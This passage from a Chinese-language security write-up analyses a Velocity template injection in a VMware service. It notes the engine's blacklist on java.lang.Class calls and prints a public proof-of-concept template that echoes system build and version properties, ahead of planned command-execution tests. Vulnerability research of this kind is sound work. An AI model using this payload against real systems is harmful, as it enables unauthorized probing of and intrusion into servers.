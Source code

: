 新的 Velocity 版本有一些黑名单来阻止对“java.lang.Class”类方法的调用，就看上下文是否有一些变量存在操作空间。  
[![](assets/1704161823-0e788c16ea08fb57889fbeebbee1fe3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122419-932aef08-491c-1.png)

### velocity poc 分析

所以看是否可以通过 velocity 执行命令或上传文件

```plain
#set($modelKey = $LOCAL-resourceItem.resourceItem.getKey())##
#set($objectId = "vim.ServiceInstance:$modelKey.value:$modelKey.serverGuid")##
#set($obj = $LOCAL-cdf20Result.newObject("vim.ServiceInstance", $objectId))##
$obj.addProperty("OSTYPE", "VMware can't steal this PoC")##
$obj.addProperty("BUILD", $content-about-build)##
$obj.addProperty("VERSION", $content-about-version)##
```

上面是公开的 poc，只会回显一些系统属性，`$LOCAL-resourceItem`、`$content-about-build`、`$content-about-version`都是 context 里已有的变量。  
这里通过调试获取 context 里的属性做测试，测试代码如下
